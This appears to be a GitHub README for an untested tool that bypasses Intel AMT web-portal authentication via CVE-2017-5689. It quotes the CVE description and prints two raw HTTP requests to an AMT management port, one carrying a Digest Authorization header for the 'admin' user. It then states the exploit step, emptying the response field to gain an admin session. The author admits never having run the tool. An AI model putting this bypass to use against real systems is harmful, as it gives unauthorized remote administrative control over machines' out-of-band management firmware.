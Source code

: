 # Intel_IME_WebUI_bypass
does this even work?

This has some new things I have never done before and I am still testing it... haven't even run the darn thing yet but it looks like it works I guess.

################################################################################
This is a tool to persist an Intel IME admin session by modifying the GET 
request to have the "response:" field empty in every request. 
The web portal presented by the HARDWARE uses an MD5 in the response body to
authenticate and per the link given, can be bypassed by simply emptying it.
https://www.ssh.com/vulnerability/intel-amt/

CVE-2017-5689
  https://nvd.nist.gov/vuln/detail/CVE-2017-5689
  
  An unprivileged network attacker could gain system privileges to 
  provisioned Intel manageability SKUs: Intel Active Management Technology 
  (AMT) and Intel Standard Manageability (ISM). An unprivileged local attacker
  could provision manageability features gaining unprivileged network or local
  system privileges on Intel manageability SKUs: Intel Active Management 
  Technology (AMT), Intel Standard Manageability (ISM), and Intel Small 
  Business Technology (SBT).
 
################################################################################
 FIRST REQUEST:
################################################################################
 GET /index.htm HTTP/1.1
 Host: 192.168.0.44:16992
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 
   Firefox/73.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,
   */*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Connection: close
 Referer: http://192.168.0.44:16992/logon.htm
 Upgrade-Insecure-Requests: 1

###############################################################################
 SECOND REQUEST
###############################################################################
 GET /index.htm HTTP/1.1
 Host: 192.168.0.44:16992
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101
   Firefox/73.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,
   */*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Connection: close
 Referer: http://192.168.0.44:16992/logon.htm
 Upgrade-Insecure-Requests: 1
 Authorization: Digest username="admin", 
       realm="Digest:72C40000000000000000000000000000", 
       nonce="WT7ZAQsLAABEyoVgz4/+bFmvwKIRUvUI", 
       uri="/index.htm", 
       response="9621f86ecc7d8f680213ddc2aae3f21d", 
       qop=auth, 
       nc=00000001, 
       cnonce="96d5787909ac7ea7"
################################################################################
 WE MODIFY 'response=""' TO BE EMPTY WITH THE USERNAME "ADMIN" THAT IS ALL
################################################################################
